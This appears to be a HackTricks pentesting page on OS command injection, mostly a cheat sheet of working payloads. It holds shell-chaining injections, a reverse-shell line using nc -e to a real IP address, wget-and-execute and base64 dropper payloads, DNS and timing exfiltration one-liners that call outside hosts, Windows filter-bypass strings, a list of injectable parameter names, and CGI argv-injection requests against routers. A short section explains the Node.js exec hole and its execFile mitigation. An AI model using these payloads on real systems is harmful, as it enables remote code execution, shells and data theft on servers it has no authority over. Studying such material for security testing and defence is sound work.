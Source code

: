# Command Injection

{{#include ../banners/hacktricks-training.md}}

## What is command Injection?

A **command injection** permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. As a result, the application and all its data can be fully compromised. The execution of these commands typically allows the attacker to gain unauthorized access or control over the application's environment and underlying system.

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

## Command Injection/Execution

```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)
ls%0abash%09-c%09"id"%0a   # (Combining new lines and tabs)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

### **Limition** Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**


{{#ref}}
../linux-hardening/bypass-bash-restrictions/
{{#endref}}

### **Examples**

```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

### Parameters

Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from [link](https://twitter.com/trbughunters/status/1283133356922884096)):

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

### Time based data exfiltration

Extracting data: char by char

```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

### Filtering bypass

#### Windows

```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```

#### Linux


{{#ref}}
../linux-hardening/bypass-bash-restrictions/
{{#endref}}

### Node.js `child_process.exec` vs `execFile`

When auditing JavaScript/TypeScript back-ends you will often encounter the Node.js `child_process` API.

```javascript
// Vulnerable: user-controlled variables interpolated inside a template string
const { exec } = require('child_process');
exec(`/usr/bin/do-something --id_user ${id_user} --payload '${JSON.stringify(payload)}'`, (err, stdout) => {
  /* … */
});
```

`exec()` spawns a **shell** (`/bin/sh -c`), therefore any character that has a special meaning to the shell (back-ticks, `;`, `&&`, `|`, `$()`, …) will result in **command injection** when user input is concatenated in the string.

**Mitigation:**  use `execFile()` (or `spawn()` without the `shell` option) and provide **each argument as a separate array element** so no shell is involved:

```javascript
const { execFile } = require('child_process');
execFile('/usr/bin/do-something', [
  '--id_user', id_user,
  '--payload', JSON.stringify(payload)
]);
```

Real-world case: *Synology Photos* ≤ 1.7.0-0794 was exploitable through an unauthenticated WebSocket event that placed attacker controlled data into `id_user` which was later embedded in an `exec()` call, achieving RCE (Pwn2Own Ireland 2024).

### Argument/Option injection via leading hyphen (argv, no shell metacharacters)

Not all injections require shell metacharacters. If the application passes untrusted strings as arguments to a system utility (even with `execve`/`execFile` and no shell), many programs will still parse any argument that begins with `-` or `--` as an option. This lets an attacker flip modes, change output paths, or trigger dangerous behaviors without ever breaking into a shell.

Typical places where this appears:

- Embedded web UIs/CGI handlers that build commands like `ping <user>`, `tcpdump -i <iface> -w <file>`, `curl <url>`, etc.
- Centralized CGI routers (e.g., `/cgi-bin/<something>.cgi` with a selector parameter like `topicurl=<handler>`) where multiple handlers reuse the same weak validator.

What to try:

- Provide values that start with `-`/`--` to be consumed as flags by the downstream tool.
- Abuse flags that change behavior or write files, for example:
  - `ping`: `-f`/`-c 100000` to stress the device (DoS)
  - `curl`: `-o /tmp/x` to write arbitrary paths, `-K <url>` to load attacker-controlled config
  - `tcpdump`: `-G 1 -W 1 -z /path/script.sh` to achieve post-rotate execution in unsafe wrappers
- If the program supports `--` end-of-options, try to bypass naive mitigations that prepend `--` in the wrong place.

Generic PoC shapes against centralized CGI dispatchers:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Content-Type: application/x-www-form-urlencoded

# Flip options in a downstream tool via argv injection
topicurl=<handler>&param=-n

# Unauthenticated RCE when a handler concatenates into a shell
topicurl=setEasyMeshAgentCfg&agentName=;id;
```

## Brute-Force Detection List


{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt
{{#endref}}


## References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [Extraction of Synology encrypted archives – Synacktiv 2025](https://www.synacktiv.com/publications/extraction-des-archives-chiffrees-synology-pwn2own-irlande-2024.html)
- [PHP proc_open manual](https://www.php.net/manual/en/function.proc-open.php)
- [HTB Nocturnal: IDOR → Command Injection → Root via ISPConfig (CVE‑2023‑46818)](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)
- [Unit 42 – TOTOLINK X6000R: Three New Vulnerabilities Uncovered](https://unit42.paloaltonetworks.com/totolink-x6000r-vulnerabilities/)

{{#include ../banners/hacktricks-training.md}}
